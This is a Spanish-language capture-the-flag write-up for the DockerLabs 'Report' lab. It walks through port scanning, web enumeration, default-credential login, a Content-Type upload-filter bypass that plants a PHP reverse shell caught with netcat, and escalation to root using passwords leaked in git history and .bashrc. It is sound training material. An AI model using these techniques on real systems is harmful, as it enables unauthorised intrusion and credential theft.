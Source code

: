 ```yaml
---
title: Report
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-03
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-report/report_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - ssh
  - http
  - tcp
  - fuzzing_web
  - rfi
  - interactive_tty
  - git
  - data_leaks
  - information_gathering
  - web_analysis
  - foothold
  - lateral_movement
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/report:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.044 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.044/0.044/0.044/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/report:-$ sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 3306/open/tcp//mysql///     Ignored State: closed (65532)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/report:-$ sudo nmap  -sCV -p22,80,3306 -vvv -oN nmap2 127.17.0.2
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 58:46:38:70:8c:d8:4a:89:93:07:b3:43:17:81:59:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK3jyO8oTx3+eTtg3uEj4vQXYl0j42cuhclLt2dyyfiFLbeW94LqNiU+Y7Ew2F93cNaw4X+HEs9XE6j6if3YDn8=
|   256 25:99:39:02:52:4b:80:3f:aa:a8:9a:d4:8e:9a:eb:10 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEm9qKfzI/z7OvQrroF3oJEDlNu9yzmddiw449QxIeeR
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://realgob.dl/
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp open  mysql   syn-ack ttl 64 MySQL 5.5.5-10.11.8-MariaDB-0ubuntu0.24.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.8-MariaDB-0ubuntu0.24.04.1
|   Thread ID: 9
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, SupportsTransactions, IgnoreSigpipes, LongColumnFlag, ODBCClient, InteractiveClient, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, Support41Auth, FoundRows, SupportsLoadDataLocal, SupportsCompression, ConnectWithDatabase, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: hs,yD&.UC/a{hu6KTGDa
|_  Auth Plugin Name: mysql_native_password
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/report:-$ echo '127.17.0.2\trealgob.dl' | sudo tee -a /etc/hosts
```
```terminal
/home/kali/Documents/dockerlabs/report:-$ whatweb realgob.dl
http://realgob.dl [200 OK] Apache[2.4.58], Bootstrap[4.5.2], Country[RESERVED][ZZ], Email[contacto@gobiernoficticio.gob], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[127.17.0.2], JQuery, Script, Title[Gobierno Municipal]
```

---
## Web Analysis

Encuentro un servicio web con múltiples opciones y directorios disponibles.

![](assets/img/dockerlabs-writeup-report/report1_1.png)

```terminal
/home/kali/Documents/dockerlabs/report:-$ dirb http://realgob.dl
---- Scanning URL: http://realgob.dl/ ----
+ http://realgob.dl/admin.php (CODE:200|SIZE:1005)
==> DIRECTORY: http://realgob.dl/api/
==> DIRECTORY: http://realgob.dl/assets/
==> DIRECTORY: http://realgob.dl/database/
==> DIRECTORY: http://realgob.dl/images/
==> DIRECTORY: http://realgob.dl/includes/
+ http://realgob.dl/index.php (CODE:200|SIZE:5048)
+ http://realgob.dl/info.php (CODE:200|SIZE:76297)
+ http://realgob.dl/LICENSE (CODE:200|SIZE:0)
==> DIRECTORY: http://realgob.dl/logs/
==> DIRECTORY: http://realgob.dl/pages/
+ http://realgob.dl/server-status (CODE:200|SIZE:7309)
==> DIRECTORY: http://realgob.dl/uploads/
```

El la página `admin.php` presenta un formulario de inicio de sesión. Utilizo credenciales básicas `admin:admin123`, logrando acceder con éxito.

![](assets/img/dockerlabs-writeup-report/report1_2.png)

Una vez dentro, soy redirigido a la página `cargas.php`, que permite subir archivos directamente al servidor.

![](assets/img/dockerlabs-writeup-report/report1_3.png)

---
## Foothold

Intento subir una reverse shell utilizando el script [pentestmonkey/php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php). Sin embargo, al hacerlo, la página responde con el mensaje, "Tipo de archivo no permitido."

![](assets/img/dockerlabs-writeup-report/report1_4.png)
![](assets/img/dockerlabs-writeup-report/report1_5.png)

Para analizar la restricción, intercepto la solicitud utilizando Burp Suite. En la solicitud HTTP, identifico el encabezado `Content-Type`, cuyo valor predeterminado es `application/x-php`. Modifico este valor a `image/jpeg` y reenvío la solicitud al servidor.

![](assets/img/dockerlabs-writeup-report/report1_6.png)

Como resultado, la carga del archivo es exitosa, y el servidor confirma con el mensaje, "Archivo cargado exitosamente."

![](assets/img/dockerlabs-writeup-report/report1_7.png)

A continuación, me pongo a la escucha en el puerto previamente definido y accedo a la página `uploads.php` para ejecutar la reverse shell cargada.

```terminal
/home/kali/Documents/dockerlabs/report:-$ nc -nvlp 1234
	listening on [any] 1234 ...
```

![](assets/img/dockerlabs-writeup-report/report1_8.png)


```terminal
	... connect to [192.168.0.171] from (UNKNOWN) [192.168.0.171] 52798

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---
## Lateral Movement

```terminal
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@kali:/var/www/mybb$ ^Z
zsh: suspended  nc -lnvp 1234

/home/kali/Documents/dockerlabs/report:-$ stty raw -echo;fg
[1]  + continued  nc -lnvp 1234
                               reset
reset: unknown terminal type unknown
Terminal type? xterm

www-data@kali:/var/www/html$ export TERM=xterm
www-data@kali:/var/www/html$ export SHELL=bash
www-data@kali:/var/www/html$ stty rows 42 columns 86

www-data@kali:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Una vez estabilizada la sesión, navego por los directorios y encuentro un proyecto en desarrollo en la ruta `/var/www/html/desarrollo`. Para revisar su historial de cambios, configuro el entorno de Git.

```terminal
www-data@kali:/var/www/html/desarrollo$ export HOME=/var/www/html/uploads
www-data@kali:/var/www/html/desarrollo$ git config --global --add safe.directory /var/www/html/desarrollo
```

Al inspeccionar los commits, identifico un commit sospechoso, "Acceso a Remote Managment".

```terminal
www-data@kali:/var/www/html/desarrollo$ git log
```

![](assets/img/dockerlabs-writeup-report/report2_1.png)

```terminal
www-data@kali:/var/www/html/desarrollo$ git show 0baff
```

![](assets/img/dockerlabs-writeup-report/report2_2.png)

En los cambios del commit, encuentro credenciales explícitas del usuario `adm`, `adm:9fR8pLt@Q2uX7dM^sW3zE5bK8nQ@7pX`.

```terminal
www-data@kali:/var/www/html/desarrollo$ su adm
Password: 9fR8pLt@Q2uX7dM^sW3zE5bK8nQ@7pX

adm@kali:~$ id
uid=1001(adm) gid=100(users) groups=100(users)
```

---
## Privilege Escalation

Inspecciono su archivo `.bashrc` en busca de información relevante o configuraciones sospechosas.

```terminal
adm@kali:~$ cat .bashrc
```

![](assets/img/dockerlabs-writeup-report/report3_1.png)

En el archivo, encuentro una cadena hexadecial definida como `MY_PASS`. Convierto esta cadena para revelar su contenido y el resultado es la contraseña del usuario `root`.

```terminal
/home/kali/Documents/dockerlabs/report:-$ echo ’64 6f 63 6b 65 72 6c 61 62 73 34 75’ | xxd -r -p
dockerlabs4u
```

```terminal
adm@kali:~$ su root
Password: dockerlabs4u

root@kali:/home/adm# id
uid=0(root) gid=0(root) groups=0(root)
```
